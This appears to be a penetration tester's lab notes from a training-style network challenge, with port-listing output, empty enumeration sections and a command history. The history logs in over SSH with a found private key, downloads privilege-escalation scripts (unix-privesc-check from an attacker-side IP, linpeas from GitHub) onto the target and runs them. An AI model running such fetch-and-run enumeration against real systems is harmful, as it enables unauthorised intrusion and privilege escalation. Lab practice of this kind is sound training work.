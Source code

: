 ## Netstat
`ss -tuln`
```
Netid         State          Recv-Q         Send-Q                 Local Address:Port                  Peer Address:Port         Process         
udp           UNCONN         0              0                      127.0.0.53%lo:53                         0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:2222                       0.0.0.0:*                            
tcp           LISTEN         0              4096                   127.0.0.53%lo:53                         0.0.0.0:*                            
tcp           LISTEN         0              511                        127.0.0.1:8000                       0.0.0.0:*                            
tcp           LISTEN         0              128                             [::]:2222                          [::]:*                            
tcp           LISTEN         0              511                                *:80                               *:*                            
tcp           LISTEN         0              511                                *:443                              *:*                      
```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
    ssh -i challenge/2/192.168.X/245/anita_key_no_pass anita@192.168.240.246 -p 2222
    // connect as anita same as 245
    // drop 
    curl 192.168.45.214/unix-privesc-check -o unix-privesc-check
    chmod +x unix-privesc-check
    ./unix-privesc-check standard > privoutput.txt
    // didnt find anything

    //drop linpeas onto box
    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
    // drop on box and run
    ./linpeas.sh

    ss -tuln
    // found local listen on port 8000
    ss -ltnp | grep 8000
    // pid 511
    // found internal php web page
    // /var/www/internal
```